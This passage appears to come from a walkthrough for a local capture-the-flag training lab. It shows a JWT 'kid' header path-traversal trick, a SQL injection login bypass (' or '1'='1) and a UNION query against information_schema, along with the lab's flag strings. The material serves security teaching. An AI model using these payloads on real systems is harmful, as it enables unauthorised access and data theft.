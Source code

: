 #### **Challenge 4: Kid Parameter Injection**

**What the user does:**
1. **Manipulates the `kid` (Key ID) parameter**
   ```javascript
   Header: {
     "alg": "HS256",
     "typ": "JWT", 
     "kid": "../flag.txt"
   }
   ```

2. **Exploits path traversal**
   - Server reads arbitrary files based on kid parameter
   - **🏆 FLAG REVEALED: `FLAG{JWT_K1D_P4R4M_1NJ3CT10N}`**

---

## 💉 **4. SQL Injection Lab Experience**
```
🔗 Lab URL: http://localhost:3000
🎯 Difficulty: Intermediate  
⏱️ Est. Time: 2-3 hours
🚩 Flags: 5 available
```

### **Step-by-Step User Journey:**

#### **SecureBank Application**
- Realistic banking web application
- Login form and user search functionality
- Multiple database tables with sensitive data

#### **Challenge 1: Authentication Bypass**

**What the user does:**
1. **Tests login form**
   ```
   Username: admin
   Password: ' or '1'='1
   ```

2. **Observes SQL injection**
   ```sql
   SELECT * FROM users WHERE username='admin' AND password='' or '1'='1'
   ```

3. **Successfully bypasses authentication**
   - **🏆 FLAG REVEALED: `FLAG{SQL_UN10N_M4ST3R}`**

#### **Challenge 2: UNION-based Data Extraction**

**What the user does:**
1. **Discovers search functionality**
2. **Tests UNION injection**
   ```sql
   ' UNION SELECT table_name,column_name FROM information_schema.columns--
   ```
